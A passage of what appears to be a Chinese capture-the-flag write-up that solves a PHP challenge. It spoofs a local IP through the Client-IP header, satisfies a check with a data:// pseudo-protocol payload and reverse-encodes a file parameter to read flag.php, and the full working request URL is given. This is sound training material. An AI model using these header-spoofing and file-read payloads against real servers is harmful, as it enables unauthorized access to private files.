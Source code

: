 这里XFF头不起作用,所以更换为了`Client-IP`头, 同时按照要求POST一个Merak

得到了下一关的源码:

```php
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v);  # 先解码
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){  #解码后的每一个字符ord转为ascii码之后,加上i*2
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

这里首先需要满足: `file_get_contents($_GET['2333']) === 'todat is a happy day'`, 通过`data://`伪协议即可:

```
2333=data://text/plain,todat is a happy day
```

下一步需要通过file参数来读取`flag.php` , 这里`file`参数会经过`change`的处理, 传入编码后的字符串,解码后将每一位的`ascii`码都加上当前数组下标值得两倍

那么反过来将`flag.php`每一位的ascii码都减去下标的两倍就得到 : `fj]a&f\b`, 再将其编码之后作为参数传进去就行了:

```
secrettw.php?2333=data://text/plain,todat is a happy day&file=ZmpdYSZmXGI=
```

注意这里要把上一步传的`Merak`删掉,不然会在判定该参数是否存在时直接退出.

查看源码得到flag

<br>

***

<br>

